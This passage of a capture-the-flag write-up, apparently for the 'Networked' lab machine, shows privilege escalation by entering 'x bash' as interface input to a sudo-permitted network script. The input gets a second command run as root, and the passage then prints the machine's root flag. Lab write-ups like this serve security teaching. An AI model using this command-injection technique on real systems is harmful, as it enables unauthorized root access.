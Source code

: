 Then, try to inject the script by having "bash" as a 2nd argument of input.<br>
We can achieve a root shell.
{% highlight shell %}
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
sudo /usr/local/sbin/changename.sh
interface NAME:
x bash
x bash
interface PROXY_METHOD:
x y
x y
interface BROWSER_ONLY:
x y
x y
interface BOOTPROTO:
x y
x y

[root@networked network-scripts]# id
id
uid=0(root) gid=0(root) groups=0(root)
[root@networked network-scripts]# 
{% endhighlight %}

As always, root.txt is in the directory "/root".
{% highlight shell %}
[root@networked network-scripts]# cat /root/root.txt
cat /root/root.txt
0a8ecda83f1d81251099e8ac3d0dcb82
[root@networked network-scripts]#
{% endhighlight %}
